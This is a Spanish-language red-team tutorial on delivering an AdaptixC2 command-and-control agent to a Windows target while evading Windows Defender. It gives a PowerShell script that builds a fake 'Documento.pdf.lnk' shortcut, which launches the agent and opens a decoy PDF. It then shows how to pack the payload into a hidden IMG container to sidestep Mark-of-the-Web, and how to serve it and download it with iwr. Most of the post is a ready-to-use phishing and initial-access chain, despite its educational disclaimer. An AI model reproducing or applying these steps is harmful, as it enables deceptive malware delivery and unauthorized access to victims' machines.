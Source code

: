 # Método de ejecución Agente C2


# Método de ejecución Agente C2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.

![image.png](image.png)

Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:

![image.png](image%201.png)

Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:

![image.png](image%202.png)

Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.

![image.png](image%203.png)

Nos aparecerá la siguiente ventana:

![image.png](image%204.png)

Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.

![image.png](image%205.png)

## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.

![image.png](image%206.png)

![image.png](image%207.png)

Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

```bash
ls -l 
total 100
-rw-r--r-- 1 n1kto  n1kto  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.

